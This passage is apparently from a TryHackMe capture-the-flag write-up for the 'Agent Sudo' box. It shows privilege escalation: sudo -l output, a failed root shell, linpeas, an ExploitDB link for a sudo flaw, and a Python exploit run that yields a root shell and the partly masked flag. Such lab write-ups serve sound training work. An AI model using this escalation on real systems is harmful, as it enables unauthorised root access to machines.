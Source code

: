 
# Task 5 Privilege escalation 
Now let's try to get in to root. Before we run any of the scripts we can look what we can run as a root.
```bash
james@agent-sudo:~$ sudo -l -l
[sudo] password for james: 
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:

Sudoers entry:
    RunAsUsers: ALL, !root
    Commands:
	/bin/bash
james@agent-sudo:~$ sudo /bin/bash
Sorry, user james is not allowed to execute '/bin/bash' as root on agent-sudo.
james@agent-sudo:~$ 
```
## CVE number for the escalation 
User james cannot execute **/bin/bash** . Let's run linpeas.

![](Images/linpeas.png)

We can search this sudo version can be exploit. After some time I found this exploit.

ExploitDB : https://www.exploit-db.com/exploits/47502

## What is the root flag?

Let's see this exploit in action.
```bash
james@agent-sudo:/dev/shm$ python3 sudo-exploit.py 
Enter current username :james
Lets hope it works
root@agent-sudo:/dev/shm# cd /root
root@agent-sudo:/root# ls
root.txt
```
## (Bonus) Who is Agent R?
```bash
root@agent-sudo:/root# cat root.txt 
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d44*****************

By,
DesKel a.k.a Agent R
```